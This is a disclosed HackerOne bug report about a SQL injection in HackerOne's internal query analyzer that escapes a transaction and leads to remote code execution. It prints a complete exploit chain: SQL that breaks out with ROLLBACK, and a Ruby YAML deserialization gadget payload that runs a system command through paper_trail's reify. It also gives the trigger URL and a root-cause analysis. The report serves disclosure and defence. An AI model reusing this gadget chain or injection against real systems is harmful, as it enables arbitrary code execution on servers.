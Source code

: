 # Ability to escape database transaction through SQL injection, leading to arbitrary code execution

## Report Details
- **Report ID**: 1663299
- **URL**: https://hackerone.com/reports/1663299
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-08-08T20:20:37.685Z
- **Disclosed**: 2022-08-09T18:58:36.634Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
HackerOne has an internal backend interface that gives debugging capabilities to its engineers. One of the features is the ability to run `EXPLAIN ANALYZE` queries against a connected database. This feature is accessible by a handful of engineers. The feature is vulnerable to a SQL injection that allows an attacker to escape the transaction that is wrapped around the `EXPLAIN ANALYZE` query. This SQL injection can be leveraged to execute arbitrary ruby on an application server.

This vulnerability will be demonstrated against a local development environment.

# Proof of concept
- go to http://localhost:8080/support/sql_query_analyzer
- analyze the following query using the `public` database connection:

```sql
SELECT
        1
;

ROLLBACK
;

INSERT
    INTO
        user_versions (
            item_type
            ,item_id
            ,event
            ,email
            ,object
        )
    VALUES (
        'User'
        ,2
        ,'update'
        , 'uniquekeywordtotriggercode@hackerone.com'
        ,'---
username:
  - !ruby/object:Gem::Installer
      i: x
  - !ruby/object:Gem::SpecFetcher
      i: y
  - !ruby/object:Gem::Requirement
    requirements:
      !ruby/object:Gem::Package::TarReader
      io: &1 !ruby/object:Net::BufferedIO
        io: &1 !ruby/object:Gem::Package::TarReader::Entry
            read: 0
            header: "abc"
        debug_output: &1 !ruby/object:Net::WriteAdapter
            socket: &1 !ruby/object:Gem::RequestSet
                sets: !ruby/object:Net::WriteAdapter
                    socket: !ruby/module ''Kernel''
                    method_id: :system
                git_set: sleep 600
            method_id: :resolve '
    )
;

-- 
```
- visit http://localhost:8080/support/historic_users?historic_user_input=uniquekeywordtotriggercode@hackerone.com and observe that the page will hang for 600 seconds and then result in a 500 internal server error, proving that it executes the `sleep 600` command in the injected object.

# Root cause
The following Ruby code is used to execute the `EXPLAIN ANALYZE` query:

```ruby
# ...
explain_analyze = "EXPLAIN (ANALYZE, COSTS, VERBOSE, BUFFERS, FORMAT JSON) #{raw_sql}"

begin
  conn.transaction(requires_new: true) do
    block = proc do
      analyze_result = conn.protected_attribute.with_parameters(params) do
        conn.execute explain_analyze
      end

      fail ActiveRecord::Rollback
    end

    if config[:use_protected_schema]
      ProtectedAttribute::SchemaUtility.with_requester(user) do
        block.call
      end
    else
      block.call
    end
# ...
```

The code is written so that it would wrap each analyze query in a transaction. This avoids permanent side effects of running the query, because `EXPLAIN ANALYZE` will still execute the SQL query. The interpolation of the `raw_sql` variable can be used to escape the current transactions and make any changes persist. The following part is used to jump out of the transaction:

```sql
SELECT
        1
;

ROLLBACK
;
```

Then, a payload is injected into a table called `user_versions` and a comment identifier (`-- `) is used to block the `ROLLBACK` statement that is appended by the `transaction` block. The `user_versions` table keeps a paper trail of changes on `User` objects. For example, when someone changes their username, the application keeps a snapshot of the previous object in the `user_versions` table. HackerOne uses a gem called [paper_trail](https://github.com/paper-trail-gem/paper_trail) for this. This gem comes with a useful function to reinstantiate an old version of an object, called `reify`. When this method is called, the YAML from the `object` attribute is deseriealized and is used to initialize the class stored in the `item_type` column. This method inherently trusts the object stored in `object` however. Because the attacker can persist a new version, it can control the object that would be deserialized. In the past, multiple YAML deserialization techniques have been published. For the proof of concept, I reused [Stratum Security's](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) payload from 2021.

There is only one place where the `reify` method is called on a `UserVersion` object, and it's through the historic users feature. It's using the following code:

```ruby
def index
  if params[:historic_user_input].present?
    if params[:historic_user_input].include? '@'
      versions = UserVersion.where(email: params[:historic_user_input]).order(id: :asc).to_a
      current_owner = User.find_by(email: params[:historic_user_input])
    else
      # ...
    end

    # ...

    original_user = versions.first.reify
```

This code will pull all `UserVersion` objects based on the `email` attribute and sorts them based on the primary key ascending. Because we also can control the `email` attribute through the SQL injection, we need to simply persist a version with a value that is unique in the table, such as `uniquekeywordtotriggercode@hackerone.com`. When the page is loaded with that as the value for the `historic_user_input`, it will only return our injected object and reinstantiate it, leading to the execution of arbitrary ruby code or, in this case, a command.

## Impact

Execution of arbitrary ruby code.

## Attachments
No attachments
